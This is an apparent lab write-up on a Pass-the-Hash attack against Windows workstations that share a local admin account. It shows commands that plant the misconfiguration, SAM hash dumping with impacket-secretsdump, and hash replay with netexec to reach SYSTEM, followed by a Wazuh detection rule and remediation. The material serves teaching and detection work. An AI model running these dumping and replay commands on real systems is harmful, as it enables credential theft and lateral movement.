


Pass-the-Hash
Summary
Pass-the-Hash (PtH) abuses the fact that Windows NTLM authentication accepts a password's hash in place of the password itself. An attacker who obtains a local account's NTLM hash from one machine can authenticate to any other machine that shares those credentials, without ever knowing or cracking the password. The hash is the credential. When a local administrator account is reused across many workstations (a common imaging mistake), a single compromised machine's hash unlocks the entire fleet.
MITRE ATT&CK: T1550.002 (Use Alternate Authentication Material: Pass the Hash) Path: compromised WS01 -> reused local admin hash -> lateral movement to WS02
The misconfiguration
Both WS01 and WS02 have a local administrator account, localadmin, with the same password (and therefore the same NTLM hash). This mirrors the classic pre-LAPS failure: imaging every workstation from one template bakes an identical local admin credential into the whole fleet. One machine's hash then works everywhere.
This is often left in place deliberately, IT sometimes use a shared local admin account when setting up new computers for the first time, and leaves it enabled across the fleet for convenience. That convenience is exactly what turns a single compromised host into fleet-wide access.
# planted identically on BOTH WS01 and WS02
net user localadmin 'P@ssw0rd-Reuse-2025!' /add
net localgroup Administrators localadmin /addA second condition is required for full remote code execution: LocalAccountTokenFilterPolicy. By default, Windows strips the admin token from local accounts authenticating remotely (UAC remote restriction), so a local- account PtH can authenticate but not execute privileged commands. Environments that enable this policy (common for certain remote-management tools) remove that blockage:
# on WS02 - enables full remote code execution for local-account PtH
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" `
-Name "LocalAccountTokenFilterPolicy" -Value 1 -PropertyType DWord -ForceExecution
This threads into the existing kill chain. Having already reached Domain Admin via the ACL-abuse slice (amoss), the attacker uses that access, domain admin is an admin on every domain-joined box, to dump WS01's local SAM and discover the reused local hash. The password was never known, it was derived from access already earned.
Discover the hash (dump WS01's local SAM as the earned DA):
impacket-secretsdump 'ecorp.local/amoss:LabP@ssw0rd!2025'@10.0.0.203
# -> localadmin:1001:aad3b435...:a8862388dfc4c8f7edc4da3b8602bfe9:::
amoss's domain access, secretsdump pulls the planted localadmin NTLM hash (a8862388…). Because the same account was created identically on both workstations, this one hash unlocks both - no cracking required.Replay the hash to WS02 (no password):
# authenticate to WS02's local account with the stolen hash
netexec smb 10.0.0.90 -u localadmin -H a8862388dfc4c8f7edc4da3b8602bfe9 --local-auth
# -> [+] WS02\localadmin:... (Pwn3d!)
# execute as SYSTEM on WS02
netexec smb 10.0.0.90 -u localadmin -H a8862388dfc4c8f7edc4da3b8602bfe9 --local-auth -x "whoami"
# -> nt authority\systemThe --local-auth flag authenticates against WS02's local account database, not the domain. The [+] (Pwn3d!) confirms the hash worked; whoami returning nt authority\system confirms full compromise of WS02, achieved with a hash and no password.
Continue the spread: dumping WS02's own SAM shows the identical localadmin hash present there too, the visible proof of credential reuse that makes fleet- wide movement possible:
netexec smb 10.0.0.90 -u localadmin -H a8862388dfc4c8f7edc4da3b8602bfe9 --local-auth --sam
# -> localadmin:1002:...:a8862388dfc4c8f7edc4da3b8602bfe9::: (same hash as WS01)![Kali terminal running netexec smb against WS02 (10.0.0.90) four times with the localadmin NTLM hash and --local-auth. The first run returns [+] WS02\localadmin (Pwn3d!) on Windows 11 / Server 2025 Build 26100. The second runs whoami - WMIEXEC fails and it falls back to atexec - returning nt authority\system. The third runs net user, listing the local accounts. The fourth uses --sam to dump WS02's local hashes, showing localadmin at RID 1002 with the same hash a8862388dfc4c8f7edc4da3b8602bfe9 that was stolen from WS01.](../../images/vulnerable-ad-lab-images/PassTheHash-Exploit.png)
localadmin hash dumped from WS01 authenticates to WS02 (Pwn3d!) and executes as nt authority\system. The --sam dump confirms WS02's localadmin carries the identical hash - one credential, full SYSTEM on a second machine, no password ever cracked.Why PtH matters even after Domain Admin: it moves laterally without touching the domain, and the local hash survives domain credential resets, so it persists through incident response that only rotates domain accounts. In a real breach, PtH also happens before full compromise, one workstation's reused hash spreads to the whole fleet without cracking a single password.
The local-account choice is deliberate for evasion: authenticating with a local account keeps the activity off the domain controller entirely. A domain logon would generate authentication events on the DC (where defenders watch most closely); a local-account network logon is recorded only on the target workstation, so an attacker using the reused local hash avoids lighting up DC-centric monitoring. That is precisely why endpoint detection matters.
Telemetry generated
The lateral authentication lands on WS02, generating Event 4624 (successful logon). The distinguishing fields:
| Field | Value | Why it matters |
|---|---|---|
win.system.eventID |
4624 | Successful logon |
win.eventdata.logonType |
3 | Network logon |
win.eventdata.authenticationPackageName |
NTLM | PtH is always NTLM, never Kerberos |
win.eventdata.targetUserName |
localadmin | The reused local account |
win.eventdata.targetDomainName |
WS02 | The machine name, not the AD domain |
win.eventdata.ipAddress |
10.0.0.76 | The attacker source |
The single sharpest indicator: targetDomainName equals the workstation name (WS02), not the AD domain (ECORP). A network logon whose "domain" is a computer means a local account authenticated across the network, which almost never happens legitimately in a domain, where inter-machine auth uses domain accounts via Kerberos. The all-zero Logon GUID is a secondary NTLM tell (Kerberos logons carry a real GUID).
Audit requirement: "Audit Logon" (Success) enabled on the workstation.
Detection
Unlike the failure-based detections (spray) or anomalous-ticket detections (roasting), pass-the-hash produces a successful logon, a valid hash is a valid credential, so there is no failure signature. The rule must fire on a suspicious success, which is a harder and more advanced detection concept.
Type-3 NTLM logons alone are too noisy (some legitimate traffic is NTLM). The fidelity comes from the discriminator: the logon uses a local account (target domain = machine name) over the network. That combination is the lateral- movement signature.
Custom rule (/var/ossec/etc/rules/local_rules.xml):
<group name="pass_the_hash,lateral_movement,attack,windows,">
<!-- Pass-the-Hash: NTLM network logon by a local account (targetDomain = machine) -->
<rule id="100240" level="12">
<if_sid>60103</if_sid>
<field name="win.system.eventID">^4624$</field>
<field name="win.eventdata.logonType">^3$</field>
<field name="win.eventdata.authenticationPackageName">^NTLM$</field>
<field name="win.eventdata.targetDomainName">WS0\d+|WORKGROUP</field>
<description>Possible Pass-the-Hash: NTLM network logon by local account $(win.eventdata.targetUserName) from $(win.eventdata.ipAddress) to $(win.eventdata.targetDomainName)</description>
<mitre><id>T1550.002</id></mitre>
</rule>
</group>Rule design notes:
- Type 3 + NTLM + local-account domain is the three-part signature. The
targetDomainNamematching the workstation name (WS01/WS02) is what separates malicious lateral movement from normal domain NTLM traffic. - Fires on a successful logon, not a failure, so it detects an anomalous _pattern_ of success rather than an error.
- In production, the
WS0\d+match would generalize to "target domain equals any local computer name" rather than a specific naming scheme.
Result: rule 100240 fired at level 12, showing localadmin authenticating from the attacker IP to WS02.

100240 catches every hash-replay logon: NTLM network authentication by the local localadmin account from the attacker at 10.0.0.76, reported by the WS02 agent. Nine hits map to the repeated netexec runs - each auth, command, and SAM dump left its own 4624.False positives / tuning: legitimate local-account network logons do occur, some backup agents, monitoring tools, and legacy software authenticate locally over the network. Those sources should be baselined and allowlisted by source IP or account. The rule is high-fidelity in a clean domain (where local-account network logons are rare) but needs environment-specific tuning where such tools exist. Correlating with the source being another workstation (not a server or management host) further raises fidelity.
Remediation
- Deploy LAPS (Local Administrator Password Solution) so every machine has a unique, rotating local admin password, no reused hash, no fleet-wide unlock.
- Deny local accounts network logon rights via GPO ("Deny access to this computer from the network" for local accounts), which blocks local-account lateral movement outright.
- Leave
LocalAccountTokenFilterPolicyat its default (disabled) unless a documented need requires it. - Enforce SMB signing and consider disabling NTLM where feasible.
- Monitor for local-account network logons (rule 100240).
Notes/Troubleshooting
- Local-account PtH is gated by
LocalAccountTokenFilterPolicy. By default, UAC remote restriction let the hash authenticate (Pwn3d!) but blocked code execution (rpc_s_access_denied/ADMIN$ not writable). Enabling the policy on WS02 unlocked full remote SYSTEM execution. - Execution-method fallback. netexec tried WMI (blocked by an RPC/DCOM timeout) and automatically fell back to
atexec(scheduled task), which succeeded. Real attackers cycle execution methods. - Endpoint audit policy. The build script set audit policy on the DC only. Workstation logon events (4624) must be audited on the workstation itself for this detection to work.